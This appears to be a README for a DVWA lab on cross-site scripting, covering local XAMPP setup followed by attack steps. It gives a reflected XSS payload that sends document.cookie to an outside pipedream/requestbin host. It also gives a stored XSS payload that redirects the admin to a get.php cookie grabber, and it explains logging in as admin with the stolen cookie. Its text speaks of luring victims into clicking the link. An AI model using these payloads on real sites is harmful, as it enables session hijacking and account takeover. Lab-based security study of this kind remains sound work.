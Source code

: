 # Cross-site-Scripting_XSS
## 1. Installation
- Move the directory "dvwa" and "mywebsite" to the xampp installation directory
For example:
E: \ xampp \ htdocs \ dvwa
E: \ xampp \ htdocs \ mywebsite

- Upload the file "dvwa.sql" to: http://localhost/phpmyadmin/

## 2. Deploy and attack
### - Access url: http://localhost/dvwa/

### - XSS - Reflected
+ Identify website with XSS reflected error?
+ After determining that there are errors XSS Reflected. Send the link to the user. (The ability to seduce the victim depends on each person, assuming we can seduce the victim to click on the link)
+ Insert the script: <script> document.write ('<IMG SRC = \ "https: //en3xwxviv17aq.x.pipedream.net? Cookie =' + document.cookie + '\"> Hello </IMG>'); </script>
+ View the cookie you just got and exploit that cookie
(Go to https://requestbin.com to exploit the cookies you just grabbed)

### - XSS - Stored
+ Create 2 files: get.php (get cookie) and cookie.txt (empty to save her
+ Upload to site message will save to guestbook in database (dvwa.sql)
+ Login as customer to insert code to get admin cookie: <script> window.location = "http: //localhost/mywebsite/get.php? cookie =" + document.cookie; </script>

+ the link to the get.php file contains the code to get the cookie you just created
+ Now switch to the admin account
+ When the admin accesses, the admin will successfully self-direct and get the admin cookie
+ Use add-on on your browser to access when you know the admin cookie
+ Login as admin successfully (No need to know password)

#Note: To use cookie exploited from the victim, each browser must install the cookie tool (add-on) depending on the extendtions of each browser.
